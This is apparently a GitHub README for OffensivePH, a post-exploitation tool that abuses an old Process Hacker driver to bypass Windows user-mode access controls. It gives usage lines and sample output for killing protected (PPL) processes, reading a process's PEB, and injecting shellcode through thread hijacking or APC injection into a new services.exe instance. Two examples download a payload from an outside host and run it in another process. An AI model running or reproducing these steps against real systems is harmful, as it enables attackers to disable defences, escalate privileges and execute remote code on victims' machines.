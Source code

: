# offensiveph

OffensivePH is a post-exploitation tool that utilizes an old Process Hacker driver to bypass several user-mode access controls. 

## Usage
- Compile OffensivePH with VS2019 (tested). 
- Execute with Admin privileges.
```
offensivph.exe [-kill|-peb|-hijack|-apcinject] [<PID>] [<URL>]
	-kill		: Kill process (can kill PPLs)
	-peb		: Read PEB of a process
	-hijack		: Inject shellcode using thread execution hijacking
	-apcinject	: Inject shellcode into a new services.exe (WinTCB-PPL) instance
```
- Kill processes
```
> offensiveph.exe -kill 8228
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[*] Trying to terminate pid: 8228
[+] KphTerminateProcess is SUCCESSFUL
[*] Service and file are removed
```
- Inject shellcode by using Hijack Thread execution 
```
> offensiveph.exe -hijack 8412 http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Connecting to URL for downloading payload
[+] Process 8412 thread is hijacked to execute payload
[*] Service and file are removed
```
- Inject shellcode into a new services.exe instance
```
> offensiveph.exe -apcinject http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Process 652 token is duplicated as Impersonation Token!
[+] Connecting to URL for downloading payload
[+] Protected Shellcode Host Process: 6520
[*] Service and file are removed
```

## References
This repo contains lots of codes and inspration from original Process Hacker code. 
- https://github.com/processhacker/processhacker
